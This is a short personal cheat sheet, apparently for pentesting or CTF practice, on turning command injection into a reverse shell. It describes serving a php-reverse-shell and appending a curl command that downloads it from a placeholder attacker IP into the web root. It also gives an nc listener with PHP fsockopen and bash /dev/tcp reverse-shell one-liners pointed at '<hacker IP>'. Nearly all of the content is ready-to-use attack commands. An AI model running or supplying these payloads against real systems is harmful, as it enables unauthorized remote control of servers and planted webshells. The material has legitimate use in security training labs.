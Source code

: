 ```yaml
---
title: COMMAND INJECTION
updated: 2023-10-02 04:58:19Z
created: 2023-10-01 13:02:24Z
latitude: -35.28093680
longitude: 149.13000920
altitude: 0.0000
---
```


# COMMAND INJECTION
1. Create reverse shell (if characters like ; get filtered, use **php-reverse-shell**)
`cp /usr/share/webshells/laudanum/php/php-reverse-shell.php .`
2. Update php-reverse-shell.php 
```
$ip = '<haker IP>';  // CHANGE THIS
$port = 5555;       // CHANGE THIS
```
3. server file over http
`python3 -m http.server`
4. On target, append to command:
`&& curl <hacker IP>/php-reverse-shell.php > /var/www/html/php-reverse-shell.php`
***
Alternativy, send a payload for a reverse shell
1. First, set a listener on port 4444
`nc -lnvp 4444`
2. Send a reverse shell payload
**PHP**: `php -r '$sock=fsockopen("<hacker IP>",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`
**BASH**: `bash -i >& /dev/tcp/<hacker IP>/4444 0>&1`

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
***
